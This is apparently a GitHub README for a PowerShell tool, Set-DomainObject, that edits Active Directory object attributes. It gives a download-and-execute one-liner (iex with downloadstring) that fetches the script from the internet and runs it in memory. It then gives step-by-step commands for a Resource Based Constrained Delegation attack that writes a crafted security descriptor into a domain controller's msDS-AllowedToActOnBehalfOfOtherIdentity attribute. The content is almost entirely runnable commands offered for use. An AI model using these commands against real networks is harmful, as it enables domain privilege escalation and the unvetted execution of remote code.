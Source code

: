 # Set-DomainObject
Modify or clear a property for a specified active directory object - Necessary rights required

### Usage
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Set-DomainObject/main/Set-DomainObject.ps1')
```
```
Set-DomainObject -Identity Senna -Set @{'mail' = "something@test.com"}
```
```
Set-DomainObject -Identity Senna -Clear @{'mail'}
```
![image](https://github.com/Leo4j/Set-DomainObject/assets/61951374/9385a6f7-446b-4c1a-9b1e-5f74e2b6f004)


# RBCD (Resource Based Constrained Delegation)
The content of msDS-AllowedToActOnBehalfOfOtherIdentity must be in raw binary format.
```
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
```
```
$rsdb = New-Object byte[] ($rsd.BinaryLength)
```
```
$rsd.GetBinaryForm($rsdb, 0)
```
```
Set-DomainObject -Identity DC01$ -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb}
```
